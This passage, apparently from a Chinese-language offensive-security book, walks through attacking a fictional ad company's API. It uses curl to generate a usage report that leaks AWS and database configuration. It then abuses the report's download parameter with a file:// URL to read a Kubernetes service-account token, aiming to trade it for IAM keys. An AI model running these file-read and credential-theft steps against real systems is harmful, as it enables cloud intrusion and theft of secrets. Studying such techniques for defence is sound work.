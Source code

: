 除了你会从一个全能 API 中期待的常规命令（获取广告系列、列出插入项、查找排除列表等），文档中提到的一个额外功能激起了我们的黑客直觉：使用报告。该功能描述如下：“*/usage-report* 端点生成一个报告文件，详细列出 API 的健康状况以及跟踪其性能和配置的多个指标*。”

配置真不错。我们喜欢“配置”这个词。配置数据通常包含密码、端点定义和其他 API 秘密。但还有更多。他们提到的那个报告文件……它是如何生成的？如何获取的？我们能下载它吗？如果能，能否修改 URL 来抓取其他文件？有没有任何检查？报告生成的动态特性可能会为我们提供一个切入点。

让我们试试这个报告使用功能。我们尝试生成一个报告，仔细检查一下：

```
shell> **curl http://10.0.2.34/usage-report/generate"**
**-H "Authorization: Bearer 8b35b04bebd34c1abb247f6baa5dae6c"**
{
 "status": "success",
    "report": "api-core/usage-report/file/?download=s3://mxrads-reports/98de2cabef81235dead4               .html"
}

shell> **curl api-core/usage-report/file/?download=s3://mxrads-reports/98de2cabef81235dead4.html**

`--snip--`
Internal configuration:
Latency metrics:
Environment:
PATH_INFO: '/usage-report'
PWD '/api/'
SHELL '/bin/bash/'

AWS_ROLE_ARN 'arn:aws:iam::886477354405:role/api-core.ec2'1 

AWS_WEB_IDENTITY_TOKEN_FILE '/var/run/secrets/eks.amazonaws.com/serviceaccount/token'2 

DB_CORE_PASS **********
DB_CORE_USER **********
DBENDPOINT=984195.cehmrvc73g1g.eu-west-1.rds.amazonaws.com 3 
`--snip--`
```

确实非常有趣！幸运的是，对于 MXR Ads 来说，使用报告生成器的开发者屏蔽了数据库用户和密码，所以没有简单的访问方式，但我们仍然得到了数据库端点 3：`984195.cehmrvc73g1g.eu-west-1.rds.amazonaws.com`。显然，数据是从 AWS 上的托管关系型数据库 RDS 中获取的。

但暂时先不管数据库。我们发现了一些可能让我们更有优势的东西。

我们将重点关注这两个特殊变量：`AWS_ROLE_ARN` 和 `AWS_WEB_IDENTITY_TOKEN_FILE`。根据 AWS 文档，当一个 IAM 角色被附加到 Kubernetes 服务账户时，AWS 管理版 Kubernetes（EKS）会注入这两个变量。这里的 api-core pod 可以用其 Kube 身份验证令牌交换为普通的 IAM 访问密钥，这些密钥携带 api-core.ec2 角色的权限 1。这是一次绝妙的权限提升！

如果能加载存储在 `AWS_WEB_IDENTITY_TOKEN_FILE` 文件中服务账户令牌，并将其交换为 IAM 访问密钥，看看我们能访问哪些内容，不能访问哪些内容，那将会很有意思。

`usage-report` 功能很可能能帮助我们实现这个目标。下载 URL 指向一个 S3 URL，但很可能它也接受其他 URL 处理程序，比如 `file://` 从磁盘加载文档，就像服务 `AWS_WEB_IDENTITY_TOKEN_FILE` 令牌文件 2：

```
shell> **curl api-core/usage-report/file?download=\**
**file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token**

eyJhbGciOiJSUzI1NiIsImtpZCI6ImQxNWY4MzcwNjI5Y2FmZGRiOGNjY2UzNjBiYzFjZGMwYWY4Zm...
```
